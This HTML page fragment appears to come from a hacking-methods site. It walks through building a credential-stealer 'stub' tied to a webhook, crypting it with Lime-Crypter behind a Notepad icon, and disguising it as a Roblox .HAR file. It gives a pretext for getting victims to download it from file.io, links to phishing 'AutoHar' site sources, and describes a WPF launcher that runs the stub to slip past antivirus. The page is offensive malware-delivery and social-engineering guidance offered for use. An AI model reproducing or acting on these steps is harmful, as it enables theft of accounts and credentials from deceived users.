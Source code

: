 		  </p>
		  <p>
			<span class="li">
				Download all the files above The files are required to use reverse-har-method
			</span>
		
		<span class="li">
			Put your webhook and customize what you want the stub to do to the PC and click Press Stealer after drag your EXE to C:\Users\Public\Music and put it inside of that folder. This makes it untraceable 
		</span>
		
		<span class="li">
			Now launch Lime-Crypter as an administrator and set your payload path to C:\Users\Public\Music\stubname.exe and then click the ICON button and select the Notepad.ICO file that you downloaded after click the  Build button! 
		</span>
		
		<span class="li">
			You've created your stub locate the path to it and rename it to  www.roblox.com.har__.exe  and upload it to <a href="https://file.io/">file.io</a>
		</span>
		
		<span>
			For this method to work tell them you can't send the .HAR because you don't have nitro so instead you will upload it to <a href="https://file.io/">file.io</a>
		</span>
		  </p>
		</section>

        <section id="autohars-section">
      		<p><h1>AutoHar Sources</h1></p>
            <p>
              A whole bunch of autohar sites sources. If you can't set up a simple website then this isnt for you...
      		  </p>
                <p>
                  <a href="https://mega.nz/folder/fscSXK4K#Gf4hi2sLIq2qNWUHWsfjGw" class="links">Mega Link</a>
                </p>
      		</section>

        <section id="panelbypass-section">
      		<p><h1>Panel Based AntiVirus Bypass</h1></p>
            <p>
              <span class="li">
              Go to visual studio 2019 and make a WPFApp. Design it how u want and add a button.
                </span>
              <br/>
              <span class="li">
                Double click button and add this code: System.Diagnostics.Process.Start("yourstublink")
              </span>
      		  </p>
          <p>
            this should make it auto execute and run your stub with the antivirus on too!
          </p>
      		</section>
